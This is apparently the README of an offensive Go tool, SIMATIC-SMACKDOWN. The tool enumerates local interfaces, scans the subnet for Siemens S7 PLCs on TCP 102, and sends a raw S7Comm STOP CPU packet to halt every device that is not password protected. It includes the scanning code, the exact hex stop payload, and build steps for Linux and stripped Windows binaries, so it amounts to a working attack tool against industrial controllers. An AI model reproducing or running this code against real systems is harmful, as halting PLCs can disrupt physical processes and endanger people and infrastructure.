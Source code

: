# :wrestling: SIMATIC-SMACKDOWN:

A simple and compact program targeting SIMATIC S7 Programmable Logic Controllers (PLCs) written in Go. Allowing for cross-compilation to target multiple operating systems out of the box, SIMATIC-SMACKDOWN enumerates networks for S7 devices before launching a distributed attack to STOP PLC CPUs.

<p align="center">
  <img width="700" height="450" alt="PXCM" src="https://user-images.githubusercontent.com/72598486/204815532-a523b140-0d63-404d-b3bf-25443b6fac7b.jpg">
</p>

# What are Siemens S7 Programmable Logic Controllers?

SIMATIC is a series of programmable logic controller and automation systems developed by Siemens. The series has gone through four major generations, the latest being the SIMATIC S7 generation. These PLCs are small industrial computers with modular components designed to automate customized control processes. To understand a PLC system, it is best to breakdown the system into two primary parts: the **central processing unit (CPU)** and the **input/output (I/O)** interface system.


![image](https://user-images.githubusercontent.com/72598486/204818575-0b552158-01e0-47fe-9c44-0a07faca07e1.png)


The **central processing unit** contains memory and a communication system needed to instruct the PLC on how to perform. Hence, the reason why CPUs are the “brain” of programmable logic controllers. This is also where data processing and diagnostics take place. The communication system allows the CPU to communicate with other devices such as I/O devices, programming devices, and other PLC systems.

**Input/output (I/O)** modules relay the necessary information to the CPU and communicate the required task in a continuous loop. Input and output devices can either be digital or analog form: digital devices are finite values represented in values of 1 or 0, analog devices are infinite values, and measure ranges of currents or voltages. Inputs or providers are switches, sensors, and smart devices in analog or digital forms. Outputs can be motor starters, lights, valves, and smart devices.

The automation process can be seen in the image below:

![image](https://user-images.githubusercontent.com/72598486/204818074-ac112340-df1f-451f-b11d-7a4bd7e3f149.png)

But what if we could send a signal to turn off the CPU so that communication between the device and the operator could not occur?

# How SIMATIC-SMACKDOWN Works:

SIMATIC-SMACKDOWN operates in three phases: interface enumeration, PLC scanning, and STOP PLC CPU.

The first phase of the program enumerates local network interfaces, gathering information about the host's environment:

```go
	// Get Private Interface
    for _, address := range addrs {
        // only add non loopback IPv4 addresses
        ipnet, ok := address.(*net.IPNet)
        if ok && ipnet.IP.To4() != nil && !ipnet.IP.IsLoopback() {
			var ip_addr = ipnet.IP
            return ip_addr.String()
        }
	}
	return ""
  ```
  
After determining the private IP address, the program enumerates the subnet for devices listening on TCP 102, which is defined as ISO-TSAP Transport Service Access Point) Class 0 protocol and utilized by Siemens S7Comm communications.

```go
	// Connect to device ports
	for i := range ip_list {
    	target := ip_list[i] + ":102"
    	conn, err := net.DialTimeout("tcp", target, 1 * time.Second)
    	if err != nil {
			continue
		} else {
			scanned_ips = append(scanned_ips, ip_list[i])
		}
		conn.Close()
	}
	return scanned_ips
```
Once the program identifies the PLCs, SIMATIC-SMACKDOWN launches a STOP CPU command via raw data to the controller. If the device is not password protected, it will turn off the PLC's CPU and stop operations. This functionality has only been tested on an S7-1200.

```go
	// Connect to device ports
	stop := "\x03\x00\x00\x21\x02\xf0\x80\x32\x01\x00\x00\x06\x00\x00\x10\x00\x00\x29\x00\x00\x00\x00\x00\x09\x50\x5f\x50\x52\x4f\x47\x52\x41\x4d"
	for i := range scanned_ips {
    	target := scanned_ips[i] + ":102"
    	conn, err := net.Dial("tcp", target)
    	if err != nil {
			continue
		} else {
			_, err = conn.Write([]byte(stop))
		}
		conn.Close()
	}
```

# Install: 

Download the repository:

```
$ mkdir SIMATIC-SMACKDOWN
$ cd SIMATIC-SMACKDOWN/
$ sudo git clone https://github.com/RoseSecurity/SIMATIC-SMACKDOWN.git
```

Install Go by finding the appropriate package for your OS at ```https://go.dev/dl/```. You can also download the installer file via ```wget```:

```
$ # wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
# Extract tarball and profit
$ sudo tar -C /usr/local/ -xzf go1.13.5.linux-amd64.tar.gz
```

Or Ubuntu install using ```apt```

``` 
$ sudo apt install golang-go
```

Build Binaries:

```
# Compile for Windows AMD64
$ env GOOS=windows GOARCH=amd64 go build simatic_smackdown.go

# NOTE: The previously compiled binary will contain symbol table and debugging information. To avoid this, use the following:
$ env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" simatic_smackdown.go

# Compile for Linux AMD64
$ env GOOS=linux GOARCH=amd64 go build simatic_smackdown.go
```
